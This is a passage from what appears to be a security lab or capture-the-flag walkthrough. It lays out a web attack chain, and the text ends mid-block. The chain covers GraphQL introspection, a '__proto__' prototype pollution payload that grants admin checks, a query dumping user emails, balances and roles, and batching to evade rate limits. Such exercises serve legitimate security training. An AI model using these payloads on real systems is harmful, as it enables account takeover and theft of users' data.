 ## 9. Modern Web App Attack Chain

**Objective**: Exploit modern web application vulnerabilities to compromise multiple user accounts

### Discovery Phase
1. Examine JavaScript dependencies for known vulnerabilities
2. The application uses an outdated version of lodash (4.17.15) which is vulnerable to prototype pollution
3. Identify the GraphQL endpoint that exposes user data:
   ```
   POST /api/graphql
   ```
4. Use GraphQL introspection to map the complete API schema:
   ```graphql
   {
     __schema {
       types {
         name
         fields {
           name
           type {
             name
             kind
           }
         }
       }
     }
   }
   ```

### Client-Side Prototype Pollution
1. The settings merge functionality is vulnerable to prototype pollution:
   ```
   POST /api/user-settings
   ```
2. Exploit the vulnerability with this payload:
   ```json
   {
     "__proto__": {
       "isAdmin": true,
       "canAccessGraphQL": true
     }
   }
   ```
3. This pollution affects all JavaScript objects in the application
4. Security checks now return true for admin verification

### GraphQL Access and Exploitation
1. With the security bypass, access GraphQL queries that should be restricted:
   ```graphql
   {
     users {
       id
       username
       email
       balance
       role
     }
   }
   ```
2. The GraphQL implementation lacks proper depth limiting and rate controls
3. Use batching to bypass rate limiting with multiple operations in one request:
   ```graphql
   [
   ```